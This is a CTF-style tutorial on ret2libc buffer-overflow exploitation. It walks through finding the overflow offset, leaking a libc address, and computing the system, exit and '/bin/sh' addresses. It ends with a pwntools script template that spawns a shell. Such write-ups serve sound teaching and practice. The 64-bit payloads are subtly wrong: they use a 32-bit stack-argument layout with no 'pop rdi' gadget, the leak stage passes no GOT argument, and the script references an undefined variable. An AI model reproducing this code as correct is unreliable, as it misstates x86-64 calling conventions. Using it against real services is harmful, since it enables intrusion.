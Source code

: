 A return-to-libc (ret2libc) challenge typically involves using a buffer overflow vulnerability to hijack the control flow of a program and call functions from the standard C library (libc). Here’s a streamlined recipe for solving a **ret2libc** challenge efficiently during a Capture The Flag (CTF) competition:

### Prerequisites:
- Basic knowledge of buffer overflow attacks.
- Familiarity with gdb/pwndbg, pwntools, and common exploitation techniques.
- A libc leak (address of any libc function or a gadget) or access to libc version.

### Step-by-Step Recipe for ret2libc Exploitation:

#### 1. **Analyze the Binary**:
   - **Run checksec** to verify protections: `checksec --file=<binary>`
     - Important details: **NX**, **PIE**, **RELRO** status.
   - Look for functions like **puts(), printf(), gets(), system(), exit(), strcpy()**.
   - Look for the main function (`main()`), and any useful library functions.

#### 2. **Find the Buffer Overflow**:
   - Use **gdb** or **pwndbg** to identify the buffer size for the overflow.
     ```bash
     gdb-pwndbg ./binary
     pattern_create <size>
     ```
   - Run the binary with input and look for **segmentation fault**.
   - Use **pattern_offset** to identify the exact overflow offset:
     ```bash
     pattern_offset <crash address>
     ```
   - Example: If the overflow occurs at 40 bytes, the offset is 40.

#### 3. **Find libc Base and System/Exit Addresses**:
   - **Find a libc leak**:
     - Locate a vulnerable function that leaks an address (e.g., **puts()**, **printf()**).
     - Set up a first-stage payload to leak a libc function (e.g., **puts@plt** + GOT entry of **puts**).
   - **Calculate libc base**:
     - Use the leaked address to calculate the libc base by subtracting the known offset from **libc.so**.
   - **Find system()** and **exit()** function addresses:
     ```bash
     system_addr = libc_base + offset_of_system
     exit_addr = libc_base + offset_of_exit
     ```

#### 4. **Find “/bin/sh” String Address**:
   - **/bin/sh** is typically found in libc as a static string.
   - Use the known offset of **/bin/sh** in libc to compute the address:
     ```bash
     binsh_addr = libc_base + offset_of_binsh
     ```

#### 5. **Construct Final Payload**:
   - Payload structure: 
     ```
     [buffer] + [return address to system()] + [return address to exit()] + [address of "/bin/sh"]
     ```
   - Example:
     ```python
     payload = b"A" * offset  # Overflow buffer
     payload += p64(system_addr)  # Overwrite return address with system()
     payload += p64(exit_addr)    # Return to exit() to cleanly exit
     payload += p64(binsh_addr)   # Argument to system() is "/bin/sh"
     ```

#### 6. **Exploit with pwntools**:
   - Use **pwntools** to automate the process:
     ```python
     from pwn import *

     # Adjust the binary name and context
     context.binary = './binary'

     # Start process or connect to remote service
     p = process('./binary')  # or remote('<ip>', <port>)

     # Offsets
     offset = <overflow_offset>
     libc_leak_func = <leak_function_name>

     # Send initial payload to leak libc address
     p.recvuntil('<some_output>')
     payload = b"A" * offset + p64(binary.symbols['plt.<libc_leak_func>']) + p64(binary.symbols['main'])
     p.sendline(payload)

     # Parse the leaked libc address
     p.recvuntil('\n')
     leak = u64(p.recvline().strip().ljust(8, b'\x00'))
     libc_base = leak - <libc_offset_of_function>
     system_addr = libc_base + <system_offset>
     binsh_addr = libc_base + <binsh_offset>
     exit_addr = libc_base + <exit_offset>

     # Construct final payload
     final_payload = b"A" * offset + p64(system_addr) + p64(exit_addr) + p64(binsh_addr)
     p.sendline(final_payload)

     # Interactive shell to control after the exploit
     p.interactive()
     ```

#### 7. **Final Steps**:
   - Test your payload in **gdb** with breakpoints to verify control over RIP (return pointer).
   - Ensure you pass `/bin/sh` correctly and get a shell.
   - If successful, automate the process in **pwntools** or **ROPgadget**.

#### Tools:
- **pwntools**: Python library to exploit binaries: [https://docs.pwntools.com/](https://docs.pwntools.com/)
- **ROPgadget**: To find gadgets inside the binary.
- **gdb + pwndbg**: For debugging and analyzing buffer overflows.

### Key Tips:
- Have pre-built **libc-database** tools or **One-Gadget RCE** available to resolve libc offsets quickly.
- Practice automating the process with pwntools to reduce time.
- Always take note of protections (NX, PIE) as they influence payload construction.
